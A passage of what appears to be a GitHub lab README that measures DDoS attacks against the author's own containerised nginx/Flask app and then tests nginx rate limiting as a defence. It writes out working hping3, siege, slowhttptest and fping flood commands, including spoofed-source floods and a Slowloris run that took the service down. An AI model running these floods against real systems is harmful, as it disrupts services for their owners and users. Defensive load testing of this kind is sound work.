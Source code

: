 # Tasks
* create attacker Kali linux container (using UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death attacks)
* create defender container
* measure attacker vs non-defended container and attacker vs properly defended container

# Additional resource
* https://pentest.blog/how-to-perform-ddos-test-as-a-pentester/

# App
Is a simple nginx ([image link](https://hub.docker.com/_/nginx)) which proxies request to Flask app that returns 200 "Ok".

# Kali Linux

Used `kalilinux/kali-rolling` see [link](https://www.kali.org/docs/containers/using-kali-docker-images/)

## Udp flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 --flood --rand-source --udp -p 8080 nginx
```

## ICMP flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 --flood --rand-source -1 -p 8080 nginx
```

## HTTP flood
used [siege](https://www.kali.org/tools/siege/)
```
    $ siege -b -c250 -t60s http://nginx:8080
```

## Slowloris attack
used Kali package [slowhttptest](https://www.kali.org/tools/slowhttptest/)
```
    $ slowhttptest -c 1050 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://nginx:8080 -x 24 -p 3
```

## Syn flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 -S --flood -V -p 8080 nginx
```


## Ping of death
used [fping](https://www.kali.org/tools/fping/)
```
    $ fping -b 65510 nginx
```

# Results

Following command used to determine health of our application
```
    $ watch -n 1 'curl -i http://localhost:8080 -w %{time_total}'
```
Normal output:
```
Every 1,0s: curl -i http://localhost:8080 -w %{time_total}

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
   0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0 100     2  100     2    0     0   2000      0 --:--:-- --:--:-- --:--:--  2000
HTTP/1.1 200 OK
Server: nginx/1.21.4
Date: Tue, 04 Jan 2022 12:45:08 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2t
Connection: keep-alive
C
Ok0,001719
```


Also we'll monitor docker stats using [TIG stack](https://hackmd.io/@lnu-iot/tig-stack)

## standart nginx config without additional defence

* udp flood

This attack doesn't seem to affect our application (possibly because we're not listening to udp ports :D ).
The only thing we can track is increased amount of incomming traffic to nginx container:
![Screenshot from 2022-01-03 18-21-29](https://user-images.githubusercontent.com/19594637/147954476-4faface4-860d-4d0e-b1b2-3bcc42e3a565.png)


* icmp flood

This attack doesn't seem to work on nginx:1.21/
We can only observe increase traffic on nginx container:
![Screenshot from 2022-01-03 18-35-30](https://user-images.githubusercontent.com/19594637/147955909-0c201d5c-0cc0-4139-986a-9d0f87fbc552.png)


* http flood

Using one kali linux container the only thing I could achieve is to siginficantly increase response times of the application (from 1-2ms in normal to 750ms-1.5sec under load).
Also we can observe increase CPU and traffic on our nginx container:
![Screenshot from 2022-01-03 18-58-40](https://user-images.githubusercontent.com/19594637/147958096-40632afc-3a05-4c6c-bd23-6d0bdfe4923e.png)


* slowloris attack

Once we've reached 1022 connection we'll successfuly DOSed our service
```
slow HTTP test status on 35th second:

initializing:        0
pending:             0
connected:           1022
error:               0
closed:              28
service available:   NO
```
And our watch curl command results show us that our application was unable to server requests
```
curl: (52) Empty reply from server
```
What is really dangerous about this kind of attack is that it does not seems to be easy to track using metrics (the only spike for nginx container is RAM)
![Screenshot from 2022-01-03 18-11-12](https://user-images.githubusercontent.com/19594637/147953506-abca9fc6-685f-4faf-9e31-4055c1146df2.png)

* syn flood

Doesn't seem to bother our application availability:
```
Lifting the server siege...
Transactions:		       98327 hits
Availability:		      100.00 %
Elapsed time:		      179.49 secs
Data transferred:	        0.19 MB
Response time:		        0.36 secs
Transaction rate:	      547.81 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		      199.59
Successful transactions:       98327
Failed transactions:	           0
Longest transaction:	        3.20
Shortest transaction:	        0.00

```
![Screenshot from 2022-01-04 13-53-13](https://user-images.githubusercontent.com/19594637/148055345-17b2e7a6-76ce-4b5a-911d-7f21816a8fa5.png)

* Ping of death

Does not seems to be reproducable with modern software
```
fping: data size 65510 not valid, must be lower than 65488
```


## nginx with additional defence ([source](https://www.nginx.com/blog/mitigating-ddos-attacks-with-nginx-and-nginx-plus/))

* http flood

Adding limit_req directive restricts too much request from one ip.
Because of this our siege command failed really early:
```
{	"transactions":			          14,
	"availability":			        1.09,
	"elapsed_time":			        2.69,
	"data_transferred":		        0.24,
	"response_time":		       42.63,
	"transaction_rate":		        5.20,
	"throughput":			        0.09,
	"concurrency":			      221.87,
	"successful_transactions":	          14,
	"failed_transactions":		        1269,
	"longest_transaction":		        0.80,
	"shortest_transaction":		        0.00
}
```
Still we can observe short CPU spikes when we try the attack:
